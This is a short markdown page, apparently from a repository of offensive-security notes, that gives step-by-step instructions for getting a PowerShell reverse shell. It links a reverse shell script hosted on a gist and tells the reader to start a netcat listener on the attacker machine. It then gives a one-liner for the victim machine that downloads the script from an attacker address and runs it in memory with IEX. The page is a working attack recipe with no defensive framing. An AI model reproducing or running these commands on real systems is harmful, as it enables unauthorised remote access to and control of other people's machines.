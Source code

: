 # PowerShell Reverse Shell

1. Download [powershell_reverse_shell.ps1](https://gist.githubusercontent.com/egre55/c058744a4240af6515eb32b2d33fbed3/raw/2c6e4a2d6fd72ba0f103cce2afa3b492e347edc2/powershell_reverse_shell.ps1)

2. Start a listener on attacker machine

        nc -nlvp 3001

3. Execute following command on the remote machine to obtain a PowerShell reverse shell
   
        powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<ATTACKER_IP_ADDRESS>:4444/powershell_reverse_shell.ps1')"

## References

* https://gist.githubusercontent.com/egre55/c058744a4240af6515eb32b2d33fbed3/raw/2c6e4a2d6fd72ba0f103cce2afa3b492e347edc2/powershell_reverse_shell.ps1